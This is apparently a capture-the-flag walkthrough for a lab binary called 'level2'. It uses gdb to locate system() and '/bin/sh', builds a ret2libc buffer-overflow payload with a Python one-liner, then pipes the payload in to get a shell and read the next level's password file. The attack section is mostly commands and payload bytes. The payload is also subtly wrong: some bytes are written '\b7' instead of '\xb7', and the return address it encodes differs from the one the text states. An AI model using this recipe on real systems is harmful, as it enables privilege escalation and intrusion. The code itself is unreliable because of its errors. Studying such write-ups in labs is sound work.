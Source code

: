 ## LEVEL2

For this level, we can notice that we won't be able to replace the return value with a function address because of the check condition. So we'll be using the *Ret2libc* method to exploit the binary.

> The **Ret2libc** is an exploit that replaces the return value with a function address and then the next bytes of the memory is replaced with addresses of the libc functions.

First, we'll need to find the address for *system()* and */bin/sh*. To do so, we'll be using *gdb*.\
-> `gdb level2`\
-> `(gdb) b p`\
-> `(gdb) r`\
-> `p system`\
We have the address of *system()* that is *0xb7e6b060*.\
-> `info proc map`\
From here, we'll search for */bin/sh* throughout all the libc.\
-> `find 0xb7e2c000, 0xb8000000, "/bin/sh"`\
And we also have the address of */bin/sh*, of *0xb7f8cc58*.

Finally, we'll need the address of the *return* in the function.\
-> `disas p`\
And we can see that it is *0x0804853e*.

And then, to exploit it, we'll just need to make a payload with all those informations, using an offset of 80 because the 4 bytes after the buffer size is storing *%ebp*. Following the sample of *payload = A\*80 + address of return + address of system + "DUMM" + address of /bin/sh*.\
-> `python -c 'print("A"*80 + "\xe3\x85\x04\x08" + "\x60\xb0\xe6\b7" + "DUMM" + "\x58\xcc\xf8\b7")' > /tmp/payload2`\
-> `cat /tmp/payload2 - | ./level2`


And there, we have a Shell prompt, so we can get the flag for the next level.\
-> `cd ..`\
-> `cat level3/.pass`